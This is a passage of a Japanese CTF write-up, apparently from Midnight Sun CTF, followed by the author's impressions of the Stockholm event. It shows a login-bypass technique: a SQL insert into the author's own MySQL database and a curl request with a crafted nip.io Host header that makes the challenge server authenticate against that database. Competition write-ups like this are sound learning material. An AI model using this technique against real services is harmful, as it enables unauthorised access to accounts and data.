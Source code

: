 ```python
```

ログイン部分のロジックを抜き出します。

```python
if 'name' in res and 'password' in res:
    if not name == res['name']:
        return render_template("security/login.html", error="User does not exist!")
    if binascii.hexlify(hashlib.pbkdf2_hmac('sha256', password, 'PJSalt', 137)) == res['password'].lower():
        return render_template("security/flag.html", error=os.getenv('FLAG'))
    else:
        return render_template("security/login.html", error="Wrong password!")
```

`hashlib.pbkdf2_hmac('sha256', (ログインフォームで入力したパスワード), 'PJSalt', 137)` と MySQL サーバが返した `password` が一致していればフラグが表示されるようです。

`binascii.hexlify(hashlib.pbkdf2_hmac('sha256', b'password', b'PJSalt', 137))` の結果を以下のように `flag.users` に挿入します。

```
mysql> insert into users values ('admin', '0c1b8b04e8367e14574f1766cc1b7b85cf03e3df82b37cd9854409e00af457d6');
Query OK, 1 row affected (0.01 sec)
```

`curl http://52.208.15.104:3002/login -H "Host: (IP アドレス).nip.io" -d "username=admin&password=password"` でフラグが得られました。

```
midnight{et_tu_mySqL?}
```

## 感想とか
- SL アクセスカード (SL のトラムやバス等で共通して使える Suica 的なカード) + 72 時間の乗り放題チケットを買っておくとストックホルム内の移動が楽でした。
- 3 食と飲み物、仮眠できる場所等が用意された会場 (スウェーデン王立工科大学) で 24 時間競技をしていました。問題に集中できる環境でよかったです。
- writeup を書いた 2 問 + ptr-yudai さんが解いた heavensdoor の他に smallspin という Web 問があったのですが、こちらも解きたかったです。くやしい。
- 競技終了後にしばらくホテルで休憩してから観光に行きました。時間の都合上、ガムラスタンと数箇所しか回れませんでしたが楽しかったです。今後もし機会があれば、もう少しゆっくり観光したいですね。